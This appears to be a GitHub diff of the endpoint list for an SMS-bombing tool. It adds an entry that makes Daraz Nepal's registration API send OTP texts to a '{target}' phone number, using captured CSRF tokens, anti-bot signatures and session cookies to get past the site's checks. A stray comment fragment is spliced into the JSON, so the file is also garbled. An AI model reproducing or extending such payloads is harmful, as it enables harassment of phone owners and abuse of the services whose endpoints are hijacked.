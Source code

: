 @ -1,11 +1,44 @@
{
    "contributors": [
        "TheSpeedX",
        "Avinash",
        "Reiltar"
    ],
    "version": "2.3",
    "sms": {

        "977":[
            {
                "name":"Daraz Nepal",
                "method":"POST",
                "url":"https://member.daraz.com.np/user/api/sendVerificationSms",
                "data":{
                    "phone":"{target}",
                    "type":"OTP_REGISTER",
@Hafizul999
Hafizul999 3 weeks ago
25

                    "lzdAppVersion":"1.0",
                    "X-CSRF-TOKEN":"57343b8557abe",
                    "ncToken":{
                        "csessionid":"01c5Cm2zXRNC4HBmgowjSMgdDZs8R8_HiarjNJvQVNRQBo-5zZpCcc-Zj0iwNLRAPi_SACvQ7y0gh3d0xIxWmtGGCPTxLVPmFVWgNrJfbz2ImfJ101mR7baXTMfdORIfsfpQW4fdLsxshenbUQO8lwb2sGKUvcuMnbQ2Vij1rs8Mc",
                        "sig":"05zgTBSfCmaRhumYWJquIqH4hNnR97lsAI6h-TpDtXOlYgRSytFdmbAkXULTnXVAqXcR0WS1oEGjtfSXCpSmdPvM2zI7hQmE8MbniWbliwF_AqYl5HflEiG6vbAxHSztx4Y30K7LLjCSmwr25R327f9PlS1AeWd_f-1vm-K7e2UVHuSDCV-8-LXtZvs7hfhYwX3glWz1VuFC8gyZO6s6WwGtvX9_6OryBXnVj9xRJFLoJXiHKzK6kL5OBYn5cQocuyd-YE5qz7FT1nhV-OJd30HTjTYD_eB26UgWPKnOoMkN3rSGI_cWYQapqRr3-XtxG_M0qLZNkARUbI0nFbC1WM2k5y_SDbfOIiD0qmkYq8epRNmn6YVyee4-6qNCP0-9du",
                        "token":"QPXW:1638536554908:0.22529358478093664"

                    }

                },
                "headers":{
                    "X-CSRF-TOKEN":"57343b8557abe",
                    "X-Requested-With":"XMLHttpRequest",
                    "Origin":"https://member.daraz.com.np",
                    "Referer":"https://member.daraz.com.np/user/register?spm=a2a0e.11779170.header.d6.287d2d2beUgUDG",
                    "Cookie":"client_type=desktop; client_type=desktop; _uab_collina=163853655435166285176039; lzd_cid=513a1bfc-2422-443b-a785-b718cc4b9a97; t_uid=513a1bfc-2422-443b-a785-b718cc4b9a97; lzd_sid=1596976611e993378a7e8712bff593d8; _tb_token_=57343b8557abe; _m_h5_tk=1c359c412628e741d8061af8066b2786_1638546612338; _m_h5_tk_enc=e71f083e08aaac3c4656dbba4fd7f267; isg=BEtLmd06rrjcufJsuCw24ji_2e014F9iHdagY71JZQrh3Gg-T7Kks5c6tkQyZ7da; tfstk=cB9GBQ6Rp3UMVTcFeA66vxJtL30RaIwNzw7vLLlMF-gfer9CYs4QT7u8fSbZxvVf.; l=eBrDzCmggn-qWMsvBO5aourza779ZIOV1kPzaNbMiInca10P1Fsy9NCdbwDvRdtfQt5egUxP5OXRad3J5AU3-xT1-ak8mCOkJNJwRe1..; hng=NP|en-NP|NPR|524; xlly_s=1; t_fv=1638536534080; t_sid=sbjEWPRZmRzmrSChohIqKSi2jwleaEFn; utm_channel=NA; cna=VwMxGpE/lgsCAWejtvLLeM0O; daraz-marketing-tracker=hide; _gcl_au=1.1.666631300.1638536536; _ga_GEHLHHEXPG=GS1.1.1638536535.1.1.1638536561.0; _ga=GA1.1.1688897274.1638536536; _gid=GA1.3.38778064.1638536537; _fbp=fb.2.1638536539279.1824638069; cto_bundle=V_3F-18lMkZ4WVc4SUpEJTJGaXhxdkxMYVZYUmRNajFEV2ttODhPYUc2R2FnN2IwYVNjS3ZqSWI4RmpIbDN0dHdlT0E4QXlZN3dqd1pPbGJmbzdMWW9DVkVETzJaamd4eHlCUXhaNW1lTUQ0MEVuJTJGemFFVUVxUjdRemhnVlF2MFU3bmZKTGF4WU1FclJzVTV3cmFNZVh6d2hIcTJGd2clM0QlM0Q; G_ENABLED_IDPS=google; _ga=GA1.4.1688897274.1638536536; _gid=GA1.4.38778064.1638536537; _bl_uid=sgk9Uwm2qwgektdj777qdz3iym33"

                },
                 "identifier":"\"notSuccess\":false"

            }

        ],

        "91": [
            {
                "name": "confirmtkt",
@@ -537,4 +570,4 @@
            }
        ]
    }
}
}
